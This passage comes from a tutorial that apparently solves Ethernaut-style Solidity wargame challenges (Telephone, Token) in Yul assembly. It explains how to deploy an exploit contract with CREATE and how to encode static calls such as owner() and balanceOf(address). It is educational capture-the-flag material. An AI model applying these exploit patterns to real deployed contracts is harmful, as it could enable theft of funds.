 ```solidity
let contractSize := mload(creationCode)
let contractOffset := add(creationCode, 0x20)
```

We just need to store the constructor argument. This is stored at the end of the contract code. Since we know the size of the contract, we just add it to the start of the contract’s code. The address for `_telephone` should be the address of `instance` so we use `sload(instance.slot)`

```solidity
let offsetConstructorArg := add(contractOffset, contractSize)
mstore(offsetConstructorArg, sload(instance.slot))
```

And then we just have to use CREATE and our contract is deployed! 🎉

```solidity
let telephoneExploit := create(0, contractOffset, mload(creationCode))
```

You also noticed the `getOwner()` function. Our first function in Yul. Pretty cool!

```solidity
function getOwner(_contract) -> _owner {
    mstore(0, "owner()")
    mstore(0, keccak256(0, 7))
    let success := staticcall(gas(), _contract, 0, 4, 0, 0x20)
    if iszero(success) {
        revert(0, 0)
    }
    _owner := mload(0)
}
```

**Unfortunately, Yul functions are only usable in the same `assembly` block they were defined in.** So we’ll not be using them too much because we will have to re-write them anyway.

### Token

Let’s see how we can call a function with a parameter, and get a result back.

```solidity
mstore(0, "balanceOf(address)")
mstore(0, keccak256(0, 18))
mstore(0x4, sload(player.slot))
pop(staticcall(gas(), token, 0, 0x24, 0, 0x20))
let startBalance := mload(0)
```

As you’ve seen before: we get the selector for `balanceOf(address)` but this time we are going to add an argument. We do `mstore(0x4, sload(player.slot))`. We store the address of the player at offset `4`. Therefore, the first 4 bytes will the function selector, and the next 32 bytes will represent the address. For example let’s say the address is 0x7c019b7834722f69771cd4e821afc8e717baaab5

The data will be: `0x70a082310000000000000000000000007c019b7834722f69771cd4e821afc8e717baaab5`

And its length is 36 bytes (`0x24`).

Notice that we use `pop` because we don’t want to check if the call succeeded or not. If it didn’t succeed, the transaction will revert anyway at some point and we’ll fail the challenge. But in production you should always check if the call succeeded or not!
